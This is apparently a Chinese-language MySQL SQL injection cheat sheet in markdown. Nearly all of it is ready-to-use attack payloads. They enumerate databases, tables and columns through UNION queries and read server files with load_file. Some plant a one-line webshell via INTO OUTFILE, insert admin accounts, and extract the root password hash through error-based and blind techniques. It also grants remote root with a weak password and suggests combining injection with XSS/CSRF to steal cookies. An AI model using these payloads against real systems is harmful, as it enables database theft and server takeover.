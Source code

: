 **0x00 mysql一般注入(select)**

1. 注释符
`#`  
`/*`
`—`

2. 过滤空格注入
使用/**/或()或+代替空格
%0c = form feed, new page  
%09 = horizontal tab  
%0d = carriage return  
%0a = line feed, new line

3. 多条数据显示
concat()  
group_concat()  
concat_ws()

4. 相关函数
system_user() 系统用户名  
user() 用户名  
current_user 当前用户名  
session_user()连接数据库的用户名  
database() 数据库名  
version() MYSQL数据库版本  
load_file() MYSQL读取本地文件的函数  
@@datadir 读取数据库路径  
@@basedir MYSQL 安装路径  
@@version_compile_os 操作系统 Windows Server 2003

GRANT ALL PRIVILEGES ON *.* TO ‘root’@’%’ IDENTIFIED BY ‘123456’ WITH GRANT OPTION;

5.mysql一般注入语句

猜字段数

order by n/*  
查看mysql基本信息  
and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/*  
查询数据库  
and 1=2 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1/*  
and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata/*  
查询表名  
and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(table_name),5 from information_schema.tables where table_schema=数据库的16进制编码/*  
查询字段  
and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码/*  
查询数据  
and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*

判断是否具有读写权限  
and (select count(*) from mysql.user)>0/*  
and (select count(file_priv) from mysql.user)>0/*

6.mysql读取写入文件

必备条件：

读：file权限必备

写：1.绝对路径 2.union使用 3. 可以使用”

————————-读———————-

mysql3.x读取方法  
create table a(cmd text);  
load data infile ‘c:\\xxx\\xxx\\xxx.txt’ into table a;  
select * from a;

mysql4.x读取方法  
除上述方法还可以使用load_file()  
create table a(cmd text);  
insert into a(cmd) values(load_file(‘c:\\ddd\\ddd\\ddd.txt’));  
select * from a;

mysql5.x读取方法  
上述两种都可以

读取文件技巧：  
load_file(char(32,26,56,66))  
load_file(0x633A5C626F6F742E696E69)

————写————————–

into outfile写文件

union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*  
union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*

0x01 mysql一般注入(insert、update)

mysql一般请求mysql_query不支持多语句执行，mysqli可以。

insert注入多使用报错注入!

1.如果可以直接插入管理员可以直接使用!

insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);

2.如果可以插入一些数据，这些数据会在网页中显示，我们可以结合xxs和csrf来获取cookies或getshell

update注入同上

**0x02 mysql报错注入**

1. and(select 1 from(select count(*),concat((select (select (语句)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1

语句处填入一般一句，如：SELECT distinct concat(0x7e,0x27,schema_name,0x27,0x7e) FROM information_schema.schemata LIMIT 0,1

2. and+1=(select+*+from+(select+NAME_CONST((语句),1),NAME_CONST((语句),1))+as+x)–

3.update web_ids set host=’www.0x50sec.org’ where id =1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b);

4.insert into web_ids(host) values((select (1) from mysql.user where 1=1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b)));  
**  
0x03 mysql一般盲注**

使用ascii

AND ascii(substring((SELECT password FROM users where id=1),1,1))=49

使用正则表达式

and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA=”blind_sqli” AND table_name REGEXP ‘^[a-n]’ LIMIT 0,1)

**0x04 mysql时间盲注**

1170 union select if(substring(current,1,1)=char(11),benchmark(5000000,encode(‘msg’,’by 5 seconds’)),null) from (select database() as current) as tbl

UNION SELECT IF(SUBSTRING(Password,1,1)=’a’,BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTcwMjgxNzgzNl19
-->